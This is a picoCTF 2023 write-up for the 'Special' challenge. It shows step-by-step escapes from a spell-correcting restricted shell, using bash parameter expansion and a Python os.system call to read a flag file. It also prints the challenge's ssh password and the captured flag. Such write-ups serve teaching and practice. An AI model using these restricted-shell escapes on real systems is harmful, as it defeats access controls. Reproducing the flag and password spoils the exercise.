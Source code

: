### Special

#Medium #General-Skills #picoCTF2023 #bashssh

Author: LT 'syreal' Jones

#### Description

Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)Start your instance to see connection details.`ssh -p 58964 ctf-player@saturn.picoctf.net`The password is `d137d16e`

##### Solution:

```css
Special$ ls
Is 
sh: 1: Is: not found
```

```css
Special$ ${parameter?ls}
${parameter?ls} 
sh: 1: parameter: ls
Special$ ${:ls}
${:ls} 
sh: 1: Bad substitution
Special$ ${parameter=ls}
${parameter=ls} 
blargh
Special$ ${parameter=ls -la}        
${parameter=ls play 
sh: 1: Syntax error: Missing '}'
Special$ ${parameter=cd blargh}
${parameter=cd blargh} 
Special$ ${parameter=ls}
${parameter=ls} 
blargh
Special$ ${parameter=cat blargh}
${parameter=cat blargh} 
cat: blargh: Is a directory
Special$ ${parameter=ls blargh}
${parameter=ls blargh} 
flag.txt
Special$ ${parameter=cat flag.txt}
${parameter=cat flag.txt} 
cat: flag.txt: No such file or directory
```

```css
Special$ ${parameter=pwd}      
${parameter=pwd} 
/home/ctf-player
Special$ ${parameter=ls}
${parameter=ls} 
blargh
Special$ ${parameter=cd blargh}
${parameter=cd blargh} 
Special$ ${parameter=pwd}
${parameter=pwd} 
/home/ctf-player
Special$ ${parameter=ls blargh}
${parameter=ls blargh} 
flag.txt
Special$ ${parameter=cat blargh/flag.txt}
${parameter=cat blargh/flag.txt} 
picoCTF{5p311ch3ck_15_7h3_w0r57_3befb794}Special$ 

```

| Command                           | Output                      |
| --------------------------------- | --------------------------- |
| ${parameter?ls}                   | parameter: ls               |
| ${:ls}                            | Bad substitution            |
| ${parameter=ls}                   | blargh                      |
| ${parameter=cat blargh}           | cat: blargh: Is a directory |
| ${parameter=cd blargh}            | ${parameter=cd blargh}      |
| ${parameter=ls blargh}            | flag.txt                    |
| ${parameter=cat  blargh/flag.txt} | This gave the flag          |
|                                   |                             |

using python we can get flag also

```python
Special$ placeholder=abc /usr/bin/python3
Placeholder=abc /usr/bin/python3 
Python 3.8.10 (default, Nov 14 2022, 12:59:47) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system("ls")
blargh
0
>>> os.system("ls blargh")
flag.txt
0
>>> os.system("cat blargh/flag.txt")
picoCTF{5p311ch3ck_15_7h3_w0r57_3befb794}0
>>> 
```
